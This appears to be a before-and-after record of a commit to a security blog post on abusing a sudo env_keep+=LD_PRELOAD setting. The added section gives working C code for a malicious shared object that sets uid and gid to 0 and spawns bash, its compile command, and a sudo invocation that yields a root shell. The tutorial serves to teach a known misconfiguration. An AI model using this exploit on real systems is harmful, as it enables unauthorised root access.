

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2021-02-08-LD_PRELOAD.md, in a window 1280 px wide and 900 px high, scrolled down 1055 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1499 px from its top, so only the background shows below that.

Commit message:
Update 2021-02-08-LD_PRELOAD.md

````diff
--- a/_posts/posts/2021-02-08-LD_PRELOAD.md
+++ b/_posts/posts/2021-02-08-LD_PRELOAD.md
@@ -72,3 +72,36 @@ pipe@whitecr0wz:/tmp$
 ```
 
 Take a glance at the flag ```env_keep+=LD_PRELOAD```, this means that we can set ```LD_PRELOAD```.
+
+##### Exploitation
+
+In order to exploit this vector, we require a binary that uses the value given in the ```LD_PRELOAD``` variable. A great example of such should be the following.
+
+```term
+pipe@whitecr0wz:/tmp$ cat rootshell.c
+#include <stdio.h>
+#include <sys/types.h>
+#include <stdlib.h>
+
+void _init() {
+unsetenv("LD_PRELOAD");
+setgid(0);
+setuid(0);
+system("/bin/bash");
+}
+pipe@whitecr0wz:/tmp$
+```
+
+This is compiled.
+
+```term
+pipe@whitecr0wz:/tmp$ gcc rootshell.c -o rootshell -fPIC -shared -nostartfiles -w
+pipe@whitecr0wz:/tmp$
+```
+
+#### Profit
+
+```term
+pipe@whitecr0wz:/tmp$ sudo LD_PRELOAD=/tmp/rootshell ping
+root@whitecr0wz:/tmp#
+```
````
